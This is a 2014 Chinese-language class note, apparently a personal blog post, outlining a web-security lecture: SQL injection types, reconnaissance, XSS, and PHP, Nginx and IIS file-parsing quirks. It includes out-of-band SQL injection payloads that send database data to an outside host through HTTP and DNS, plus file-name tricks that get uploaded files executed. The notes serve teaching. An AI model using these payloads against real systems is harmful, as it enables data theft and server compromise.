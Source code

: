 ====================
 Secure Programming 
====================

:date: 2014-12-16 18:50
:tags: secprog, ctf, web, sqli
:category: note
:slug: secure-programming-20141216
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/12/16 Secure Programming Class Note

今天的課程請到 Orange Tsai 大大，講題為 Web Security。

- 三大面向（交集：思路）
    - 技術
    - 經驗
    - 技巧

`SQL Injection 練習網站`_

Injection Flaw
==============

- SQL injection
- cross site script
- code injection
- LDAP injection
- XPATH injection
- command injection

資訊搜集
========
- Web Fingerprints
    - wappalyzer, whatweb, recon-ng
- 經驗
    - Header
    - Python 遇到錯的編碼容易掛掉
    - 錯誤頁面
    - Google
        - "site:www.nctu.edu.tw ext:php"
    - Strust2
        - ?actionError=1
    - RESTful
        - http://xxxx/show/id/1
        - http://xxxx/show.php?id=1
- Dictionary Attack
    - 路徑
    - /admin
    - /phpmyadmin
    - /sourcecode.zip

SQL Injection
=============

- Union based
- Error based
- Blind based
- Time based
- Out of band（讓 database 把東西丟出來）
    - Oracle
        - request.utl_http('http://orange.tw/'||(select user from dual))
    - MySQL (along with Windows)
        - UNC path (\\127.0.0.1\c$)
        - load_file(concat('\\\\',version(),'.orange.tw\cxx'))
            - 5.1.3.orange.tw
        - dnslogger -> skullsecurity nbtools

Cross Site Scripting (XSS)
==========================

- http://pwn.orange.tw
- svg onload
- Tweetdeck XSS Emoji

PHP 語言鬆散特性
================

- Wordpress 漏洞
- 2014 台大學生會長選舉網站 preg_match() === 0
- Apache feature
    - "hacker.php.xxx" works
- Nginx + PHP (舊版)
    - 又稱 Nginx 文件解析漏洞（但其實不是 Nginx 的漏洞）
        - 圖檔嵌入 PHP code
        - big.jpg/.php
        - http://pastebin.com/robots.txt
            - Content-Type = text/plain
        - http://pastebin.com/robots.txt/a.php
            - Content-Type = text/html
- IIS + ASP (IIS 6 以下)
    - 分號 parsing 錯誤
        - "xxx.asp;a.jpg"
    - 名稱為 ".asp" 結尾的 directory 其下的檔案都會被當成 ASP 來執行
        - /a.asp/avatar.jpg 當成 asp 執行
- Java
    - sessioin fixation
    - "1.jsp" 不可執行但 "1.jsp;" 可以

Tools
=====

- Firefox (OSWASP mantra)
    - Cookie Manageer
    - FoxyProxy
    - HackBar
    - Modify Headers
        - Include shellshock testing each HTTP request
    - Tamper Data
    - Wappalyzer
    - X-Forwarded-For
        - 127.0.0.1'
- Burp Suite

.. _SQL Injection 練習網站: http://sqli.exp.tw

